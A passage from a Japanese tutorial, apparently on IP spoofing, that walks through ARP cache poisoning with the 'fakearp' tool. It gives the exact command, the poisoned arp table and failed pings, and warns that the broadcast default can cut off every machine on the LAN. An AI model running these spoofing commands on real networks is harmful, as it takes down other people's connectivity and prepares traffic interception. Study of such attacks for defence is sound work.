 Ping statistics for 192.168.64.1:
    Packets: Sent \= 4, Received \= 4, Lost \= 0 (0% loss),
Approximate round trip times in milli\-seconds:
    Minimum \= 0ms, Maximum \=  0ms, Average \=  0ms

C:\>
\-\-\-\-\-

　192.168.64.1のEthernetアドレスを"aa\-bb\-cc\-dd\-ee\-ff"に更新させて192.168
.64.1との通信を不能にします。

\-\-\-\-\-
\# fakearp 192.168.64.5 \-shw aa:bb:cc:dd:ee:ff \-spa 192.168.64.1 \-i eth1
\-\-\-\-\-

　このコマンドを実行するとARPテーブルが更新されます。

\-\-\-\-\-  192.168.64.5側
C:\>arp \-a

Interface: 192.168.64.5 on Interface 0x1000003
  Internet Address      Physical Address      Type
  192.168.64.1          aa\-bb\-cc\-dd\-ee\-ff     dynamic

C:\>
\-\-\-\-\-

　この時点で、192.168.64.1と192.168.64.5間はARPキャッシュが切れるか、正し
いアドレスに更新されるまで通信不能となり、Pingを飛ばしても返ってくる事は
ありません。

\-\-\-\-\-
C:\>ping 192.168.64.1

Pinging 192.168.64.1 with 32 bytes of data:

Request timed out.
Request timed out.
Request timed out.
Request timed out.

Ping statistics for 192.168.64.1:
    Packets: Sent \= 4, Received \= 0, Lost \= 4 (100% loss),
Approximate round trip times in milli\-seconds:
    Minimum \= 0ms, Maximum \=  0ms, Average \=  0ms

C:\>
\-\-\-\-\-

　192.168.64.1がインターネットへのゲートウェイである場合、LANから出る事が
出来ずインターネットへの接続は出来なくなります。更に付け加えておくと、fak
earpはデフォルトでは宛先ハードウェアアドレスがFF:FF:FF:FF:FF:FF(ブロード
キャスト)のパケットを送信するので、このパケットを受け取った全てのマシンが
通信不能となる危険性があります。ピンポイントで行うには宛先ハードウェアア
ドレスを指定して下さい。

  今回はIPスプーフィングを目的としているので、ARPスプーフィングについては
ここまでとして、偽のTCPコネクションを確立させる過程を追って行きます。
  TCPは接続指向であるため、クライアント／サーバー間でコネクションの確立を
行います。コネクションの確立と再転送やフロー制御等をTCPレベルで行うためヘ
ッダーサイズが20バイトと、UDPの倍以上ありますが信頼性を保証します。IP, TCP
ヘッダーは次のような構成になっています。
